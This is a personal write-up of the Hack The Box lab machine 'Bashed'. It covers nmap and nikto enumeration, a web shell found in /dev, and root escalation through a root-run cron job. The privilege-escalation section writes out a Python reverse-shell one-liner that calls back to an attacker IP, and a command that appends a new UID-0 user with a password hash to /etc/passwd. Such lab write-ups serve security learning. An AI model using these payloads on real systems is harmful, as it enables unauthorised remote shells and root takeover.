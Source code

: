```yaml
---
title: CTF Writeup - HTB Bashed
date: 2023-11-11
author: kei5uke
description: Writeup for HTB Bashed
tags:
  - linux
  - writeup
---
```



# bashed

# Enumeration

## Nmap

```bash
┌──(root💀kali)-[~/bashed]
└─# nmap -sV -sC -T4 -p- 10.129.65.207 -oN nmap.txt
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-10 22:20 EET
Nmap scan report for 10.129.65.207
Host is up (0.038s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.04 seconds
```

## Nikto

```bash
┌──(root💀kali)-[~/bashed]
└─# nikto -host 10.129.65.207                      
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.129.65.207
+ Target Hostname:    10.129.65.207
+ Target Port:        80
+ Start Time:         2023-11-10 22:30:38 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ IP address found in the 'location' header. The IP is "127.0.1.1".
+ OSVDB-630: The web server may reveal its internal or real IP in the Location header via a request to /images over HTTP/1.0. The value is "127.0.1.1".
+ Server may leak inodes via ETags, header found with file /, inode: 1e3f, size: 55f8bbac32f80, mtime: gzip
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ /config.php: PHP Config file may contain database IDs and passwords.
+ OSVDB-3268: /css/: Directory indexing found.
+ OSVDB-3092: /css/: This might be interesting...
+ OSVDB-3268: /dev/: Directory indexing found.
+ OSVDB-3092: /dev/: This might be interesting...
+ OSVDB-3268: /php/: Directory indexing found.
+ OSVDB-3092: /php/: This might be interesting...
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
```

## Interesting page

Found web shell page dev directory.

![Screenshot 2023-11-10 at 22.36.50.png](bashed%20efd9ba4e5e124df38fb09460192c2804/Screenshot_2023-11-10_at_22.36.50.png)

# Privilege Escalation

```bash
www-data@bashed:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

I ran the PSPY and found hidden cron task.

Seems like root runs python script in the script folder.

```bash
2023/11/10 13:54:01 CMD: UID=0     PID=43970  | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
```

I made reverse shell in python but the connection gets cut off immediately.

```bash
www-data@bashed:/scripts$ echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.14",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);" > shell.py
<),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);" > shell.py
```

I added a script that writes new root user in /etc/passwd

```bash
www-data@bashed:/scripts$ echo 'open("/etc/passwd","a").write("keisuke:$1$jlX/nz9g$CddSuG5PoTI/9bLGZzDum1:0:0:root:/root:/bin/bash\n")' > root.py
```

# Root shell

![Screenshot 2023-11-11 at 00.11.29.png](bashed%20efd9ba4e5e124df38fb09460192c2804/Screenshot_2023-11-11_at_00.11.29.png)

# Note

I used PSPY for the first time.